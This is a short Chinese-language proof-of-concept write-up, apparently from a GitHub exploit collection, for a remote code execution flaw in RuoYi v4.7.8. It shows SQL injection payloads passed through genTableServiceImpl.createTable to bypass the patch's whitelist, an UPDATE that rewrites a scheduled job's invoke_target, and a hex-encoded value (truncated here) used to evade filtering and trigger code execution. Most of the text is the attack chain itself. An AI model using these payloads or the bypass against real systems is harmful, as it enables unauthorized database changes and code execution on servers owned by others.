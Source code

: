 ## RUOYI-v4.7.8存在远程代码执行漏洞

## SQL
在补丁中，采用了黑名单和白名单的策略。

![image](https://github.com/wy876/POC/assets/139549762/956ab54c-b644-46c9-8e9a-721c4fc7e2c3)

不过，我通过使用白名单类成功绕过了它，并成功进行了 SQL 注入。

`genTableServiceImpl.createTable('SELECT 1 FROM 'Hack By 1ue';')`


![image](https://github.com/wy876/POC/assets/139549762/15edcc06-576b-4421-b99a-c10b837d3ac3)

`genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')`
修改表数据成功job_id

## RCE

JobInvokeUtil由于调用时字符串中不允许有括号，所以我将原作业表中特定作业的参数值修改为十六进制（绕过防御检测），从而启用了另一个远程代码执行（RCE）的定时任务

![image](https://github.com/wy876/POC/assets/139549762/1e58dc92-fd84-4c1d-bc92-c7c4e803dfdf)

`genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a61... WHERE job_id = 2;')`

![image](https://github.com/wy876/POC/assets/139549762/bd28ba04-2e62-47ef-8142-68819931ea0b)

作业的 invoke_target 已更改

![image](https://github.com/wy876/POC/assets/139549762/71ffcbdc-fa38-4249-a878-c47abbed1ed2)


## 漏洞来源
- https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC?tab=readme-ov-file
